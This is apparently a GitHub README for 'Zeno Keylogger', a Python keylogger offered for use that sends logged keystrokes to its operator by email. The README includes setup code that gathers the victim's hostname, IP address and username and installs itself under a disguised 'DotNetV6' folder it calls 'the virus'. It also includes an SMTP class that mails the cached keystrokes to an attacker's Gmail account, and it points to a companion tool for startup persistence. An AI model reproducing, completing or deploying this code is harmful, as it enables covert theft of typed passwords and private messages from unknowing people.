 ![alt text](https://github.com/Zurek0x/zeno_Hijacker/blob/main/media/Screenshot_1.png?raw=true)
# Zeno Keylogger / Written in Python (EMAIL SERVICE)
This is a keylogger written in Python that includes certain sending methods of logs
specifically Email Servicing.
This is a better way to recieve logs since it doesn't require much effort or leaking
of server configurations or server handling which can be confusing for people and could
lead to more leaks.

# Usage (Pieces of code, Look in Source)
```python
# =?/Settings/?= #
hostname=socket.gethostname()   # Get Hostname of PC (For Logging)
IPAddr=socket.gethostbyname(hostname) # Get IP of PC (For Logging)

user = os.getlogin()# get username of PC
self_path=str(f"{os.getcwd()}") # Get Path of Self #
install_path=str(f"C:\\Users\\{user}\\Documents\\DotNetV6") # Path to install the virus too ( MUST HAVE \\ not \ )
email=str("null@gmail.com") # Email you want to recieve key logs on.
subject=str(f"") # DO NOT TOUCH THIS!
data=str("") # DO NOT TOUCH THIS!

cache = [""] # DO NOT TOUCH THIS!
filename=str("cache.txt") # Cache file name (must include .txt or .md)
file_size_limit_bytes=int(500) # File size limit before it sends Email and clears cache.
```
**Would suggest to change the full_size_limit_bytes=int(500) since this is the max file size before it sends the Email**
```python
class Mail:
    def __init__(self):
        self.port = 465
        self.smtp_server_domain_name = "smtp.gmail.com"
        self.sender_mail = "null@gmail.com"
        self.password = "null"
    def send(self, emails, subject, content):
        ssl_context = ssl.create_default_context()
        service = smtplib.SMTP_SSL(self.smtp_server_domain_name, self.port, context=ssl_context)
        service.login(self.sender_mail, self.password)
        for email in emails:
            result = service.sendmail(self.sender_mail, email, f"Subject: {subject}\n{content}")
        service.quit()

class Send:
    def Gmail(email, subject, data):
        mails=str(email).split()
        subject=subject
        content=str(data)
        print(content)
        mail = Mail()
        mail.send(mails, subject, content)
        print("Sent")
```

# !NOTICE FOR GMAIL OR GOOGLE USERS!
**For gmail users who are sending the Emails using Google Email Services like Gmail must setup a Less Secure App.**
**To set this up review the video here -> https://youtu.be/pAPWBHxnFHM <- Once you do this replace the 2 Lines below.**
![alt text](https://github.com/Zurek0x/zeno_keylogger/blob/main/media/mok.png?raw=true)

# Starting up with windows and extra stuff
To use these features you must import the code into zeno_Embedder which is a tool to do exactly this -> https://github.com/Zurek0x/zeno_Embedder
